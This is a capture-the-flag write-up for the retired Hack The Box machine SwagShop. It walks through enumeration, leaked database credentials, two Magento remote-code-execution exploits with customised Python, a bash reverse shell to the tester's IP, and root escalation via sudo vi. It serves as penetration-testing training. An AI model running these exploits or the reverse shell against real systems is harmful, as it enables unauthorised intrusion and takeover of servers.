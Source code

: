 # SwagShop

This is the write-up for the box SwagShop that got retired at the 28th September 2019.
My IP address was 10.10.14.5 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.140    swagshop.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/swagshop.nmap 10.10.10.140
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page there is the **Magento Demo Store** installed. This application is an Open-Source e-commerce platform written in PHP to set up stores.
The date of the copyright logo on the bottom tells, that this installation is from 2014.

![Magento Shop](https://kyuu-ji.github.io/htb-write-up/swagshop/swagshop_magento-1.png)

With the tool [Magescan](https://github.com/steverobbins/magescan) it is possible to scan Magento sites for versions and vulnerabilities.
```markdown
php magescan.phar scan:all 10.10.10.140
```

- Magento version is 1.9.0.0, 1.9.0.1
- Path _/app/etc/local.xml_ discloses a MySQL user and password:
  - root: fMVWh7bDHpgZkyfqQXreTjU9
  - dbname: swagshop

The Admin Login Panel can be found under _/index.php/admin_.

![Magento Admin Login](https://kyuu-ji.github.io/htb-write-up/swagshop/swagshop_magento-2.png)

Lets look for exploits:
```markdown
searchsploit magento
```

The interesting exploits are called:
- Magento eCommerce - Remote Code Execution
- Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution

The authenticated exploit could be useful after login in on the page but for now we use the upper one.
The RCE script has to be customized before it works:
```python
# (...)
target = "http://10.10.10.140/index.php/"
# (...)
query = q.replace("\n", "").format(username="tester", password="Pass1234")
# (...)
```
```markdown
python 37977.py
```

It runs successfully and we can login with _tester_ and _Pass1234_.

### Exploiting Magento after Login

After login in lets use the authenticated vulnerability found with searchsploit _"Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution"_.
This uses a **PHP Object Injection** vulnerability.

Lets modify the code before running it:
```python
# (...)

# Config.
username = 'tester'
password = 'Pass1234'
php_function = 'system'
install_date = 'Wed, 08 May 2019 07:23:09 +0000' # This needs to be the exact date from /app/etc/local.xml

# (...)

br.select_form(nr=0)
#br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
#br.form.fixup()
#br['login[username]'] = username
#br['login[password]'] = password

userone = br.find_control(name="login[username]", nr=0)
userone.value = username
pwnone = br.find_control(name="login[password]", nr=0)
pwnone.value = password

# (...)

request = br.open(url + 'block/tab_orders/period/1y/?isAjax=true', data='isAjax=false&form_key=' + key)

# (...)
```
```markdown
python auth-rce.py http://10.10.10.140/index.php/admin/ 'bash -c "bash -i >& /dev/tcp/10.10.14.5/443 0>&1"'
```

After modifying the code and executing it, the listener on my IP and port 443 starts a reverse shell.

## Privilege Escalation

We are logged in as _www-data_ and look if the user can execute something with sudo privileges:
```markdown
sudo -l

# Output
User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

This means we can execute **Vi** with root privileges as long as we append the _/var/www/html/_ folder.
```markdown
sudo vi /var/www/html/privesc
```

It is possible to execute commands directly out of Vi by going into command mode (colon) and using an exclamation point to execute the command.
```markdown
:!/bin/bash
```

In this case, executing _/bin/bash_ starts a shell as root!
